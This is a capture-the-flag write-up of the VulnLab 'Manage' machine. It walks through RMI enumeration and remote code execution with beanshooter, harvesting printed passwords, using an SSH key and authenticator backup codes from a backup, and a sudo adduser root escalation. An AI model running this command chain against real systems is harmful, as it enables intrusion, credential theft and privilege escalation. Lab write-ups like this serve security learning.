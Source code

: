 ```yaml
---
title: VulnLab -- Manage Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration]
image:
    path: images/manage-banner.png
---
```

# Manage

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Manage** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/manage-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,2222,8080,42247,42897 --min-rate=1000 10.10.123.154
```

![image.png](../images/manage.png)

now let’s try to get information about the Java RMI using beanshooter 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.123.154 2222
```

![image.png](../images/manage%201.png)

now let’s search for any credentials

![image.png](../images/manage%202.png)

as we see we got credentials for the user manager and admin

```bash
username: admin
password: onyRPCkaG4iX72BrRtKgbszd
username: manager
password: fhErvo2r9wuTEYiYgt
```

Now let’s try to gain code execution

First start tcpdump on your machine

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](../images/manage%203.png)

now let’s go and try to ping myself from the victim machine

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 exec 'ping -c 3 10.8.5.233'
```

![image.png](../images/manage%204.png)

Now let’s go back to our machine

![image.png](../images/manage%205.png)

and we got code execution!

Now let’s gain a shell 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 tonka
```

![image.png](../images/manage%206.png)

now let’s go and get a shell.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.123.154 2222
```

![image.png](../images/manage%207.png)

now let’s navigate to the useradmin directory

```bash
cd /home/useradmin
```

![image.png](../images/manage%208.png)

> Notice that we found a backup directory so let’s navigate to it
> 

```bash
cd backups
```

![image.png](../images/manage%209.png)

now let’s download the file in our local machine and see the content

```bash
tar -xvzf backup.tar.gz
```

![image.png](../images/manage%2010.png)

> Notice that we got the id_ed25519 file which is the user admin private key
> 

Let’s login via SSH as the user “useradmin”

```bash
ssh -i .ssh/id_ed25519 useradmin@10.10.123.154
```

![image.png](../images/manage%2011.png)

As we see it asks for the password but as we see when we extracted the backup file we found a google authenticator file so let’s see it’s content

```bash
cat .google_authenticator
```

![image.png](../images/manage%2012.png)

as we see we got the backup code so let’s enter one of them in the SSH login

![image.png](../images/manage%2013.png)

finally we are logged it! 🥳

Now let’s go and see our privileges 

```bash
sudo -l
```

![image.png](../images/manage%2014.png)

> As we see we can execute the binary adduser as root without password
> 

First let’s google the default sudoers file

![image.png](../images/manage%2015.png)

Notice that the admin user by default the admin user will have root access

Now let’s add a new admin user

```bash
sudo /usr/sbin/adduser admin
```

![image.png](../images/manage%2016.png)

now let’s switch to the admin user

```bash
su admin
```

![image.png](../images/manage%2017.png)

Now let’s go and check the user privilege

```bash
sudo -l
```

![image.png](../images/manage%2018.png)

as we see we have all access to root so let’s go and switch to root

```bash
sudo su
```

![image.png](../images/manage%2019.png)

and we got root access so let’s go to the root directory and see the flag

```bash
cd /root;ls -las
```

![image.png](../images/manage%2020.png)

Amazing i got the root flag! 🥳

![image.png](../images/manage%2021.png)

That’s it for the **Manage** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX